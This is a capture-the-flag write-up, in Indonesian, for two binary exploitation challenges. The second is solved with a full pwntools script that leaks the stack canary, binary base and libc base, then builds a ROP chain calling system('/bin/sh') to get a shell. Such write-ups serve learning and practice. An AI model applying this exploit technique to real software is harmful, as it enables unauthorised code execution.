

# warmup1



bof length 24


karena ini bin PIE dan kebetulan return address asli dengan func win sebelahan tinggal write lower address

# warmup2
flow dari exploitnya:

```python
# [Phase 1 - First Input] leak canary
p.recvuntil(b'What\'s your name?\n')
p.sendline(b'A' * 264)
print(p.recv(271).decode())

tmp = b'\x00'
tmp += p.recv(7)

canary = int.from_bytes(tmp, byteorder='little')
print('[+] Canary: ' + hex(canary))

# [Phase 1 - Second Input] jump ke func `main` lagi karena next phase kita akan leak base address dari bin. dan juga karena kita udah dapet canarynya, jadi gabakal dapet stack smashing detect:3
p.recvuntil(b'How old are you?\n')

payload = b'A' * 264
payload += p64(canary)
payload += b'A' * 8
payload += p8(0x9E) # 0x9E ini low address dari func `main`, jadi kita melakukan recursive disini sampai kita dapet semua yg kita butuh.
p.send(payload)

# [Phase 2 - First Input] leak bin base addr
p.recvuntil(b'What\'s your name?\n')
p.sendline(b'A' * 248)
print(p.recv(255))
    
tmp = b'\xf0'
tmp += p.recv(5)

base = int.from_bytes(tmp, byteorder='little') - 0x12F0

print('[+] base: ' + hex(base))

# [Phase 2 - Second Input] jump ke func `main` lagi.
p.recvuntil(b'How old are you?\n')

payload = b'A' * 264
payload += p64(canary)
payload += b'A' * 8
payload += p8(0x9E)
p.send(payload)

[Phase 3 - First Input] leak libc base addr
p.recvuntil(b'What\'s your name?\n')
p.sendline(b'A' * 184)
print(p.recv(191))
    
tmp = b'\x80'
tmp += p.recv(5)

libc = int.from_bytes(tmp, byteorder='little') - 0x1ce980
print('[+] libc: ' + hex(libc))

# [Phase 3 - Second Input] jump to system("/bin/sh") menggunakan gadget pop rdi
pop_rdi = 0x1353 # bin
system = 0x45880 # libc
binsh = 0x194882 # libc

payload = b'A' * 264
payload += p64(canary)
payload += b'A' * 8
payload += p64(base + pop_rdi)
payload += p64(libc + binsh)
payload += p64(libc + system)
p.send(payload)

p.interactive()

# and we got shell :3
```
